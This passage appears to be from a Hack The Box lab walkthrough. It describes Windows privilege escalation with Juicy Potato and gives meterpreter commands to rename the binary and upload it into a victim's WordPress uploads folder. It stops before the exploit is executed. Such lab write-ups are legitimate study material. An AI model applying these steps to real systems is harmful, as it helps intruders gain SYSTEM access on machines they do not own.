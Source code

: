 ## Privileged Escalation 
### Juicy Potato

- [juicy potato](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

![](./IMG/20.png)


- Juicy Potato is a variant of the exploit that allows service accounts on Windows to escalate to SYSTEM (highest privileges) by leveraging the BITS and the SeAssignPrimaryToken or SeImpersonate privilege in a MiTM attack.
- We can exploit this by uploading the Juicy Potato binary and executing it.

### Upload Juicy Potato 

- Using the same step to upload Juicy Potato to victim's machine.
- In attacker's machine, change the juicy-potato's name 
```
# mv JuicyPotato.exe JP.exe
```
- In meterpreter, change directory on attacker's machine
```
# lcd /home/kali/Desktop/HTB/
```
- Change directory on victim's machine
```
# cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
```
- 
- upload nc executable file to remote victim server
```
# upload JP.exe
```
